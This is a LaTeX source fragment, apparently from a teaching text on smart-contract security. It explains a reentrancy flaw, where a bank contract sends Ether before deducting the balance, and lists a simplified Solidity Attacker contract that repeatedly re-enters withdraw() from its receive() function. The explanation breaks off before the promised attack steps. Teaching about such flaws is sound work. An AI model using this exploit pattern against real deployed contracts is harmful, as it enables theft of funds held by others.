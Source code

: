 \documentclass{scrbook}
\begin{document}
The flawed logic is the order of operations: it sends Ether \textit{before} it deducts the amount from the user's balance.

\newpage

An \texttt{Attacker} contract can exploit this as follows:

\begin{lstlisting}[caption={Attacker exploit}]
    // Simplified example of an attacker contract
    contract Attacker {
        VulnerableBank public bank;
    
        // ... constructor to set the bank address
    
        function attack() public payable {
            bank.deposit{value: 1 ether}();
            bank.withdraw(1 ether);
        }
    
        // This function is called when the Attacker contract receives Ether
        receive() external payable {
            // As long as the bank has funds, re-enter the withdraw function
            if (address(bank).balance >= 1 ether) {
                bank.withdraw(1 ether);
            }
        }
    }
\end{lstlisting}

The attack unfolds in these steps:
\end{document}
